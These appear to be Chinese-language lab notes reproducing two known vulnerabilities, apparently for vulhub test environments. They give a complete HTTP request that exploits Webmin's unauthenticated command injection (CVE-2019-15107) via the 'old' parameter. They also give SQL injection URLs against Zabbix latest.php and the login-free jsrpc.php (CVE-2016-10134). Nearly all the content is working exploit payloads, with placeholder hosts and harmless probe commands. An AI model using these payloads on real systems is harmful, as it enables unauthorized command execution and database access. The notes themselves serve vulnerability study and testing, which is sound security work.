 ## 


# Webmin Unauthenticated Remote Code Execution (CVE-2019-15107)

## **[漏洞说明](https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html)**


# **[Webmin 远程命令执行漏洞（CVE-2019-15107）](https://github.com/vulhub/vulhub/blob/master/webmin/CVE-2019-15107/README.zh-cn.md)**


## [漏洞复现](https://www.exploit-db.com/exploits/47230)(https://blog.firosolutions.com/exploits/webmin/)

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是`user=root`），才会进入到修改`/etc/shadow`的地方，`触发命令注入漏洞`。

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```



# **[zabbix latest.php SQL注入漏洞（CVE-2016-10134）](https://vulhub.org/#/environments/zabbix/CVE-2016-10134/)**

## **[漏洞复现]()**

用`账号guest（密码为空）`登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，`复制后16位字符：`

带入注入：

将这16个字符作为sid的值，访问
```
http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
```

> 这个漏洞也可以通过jsrpc.php触发，且无需登录：
```
http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)：
```

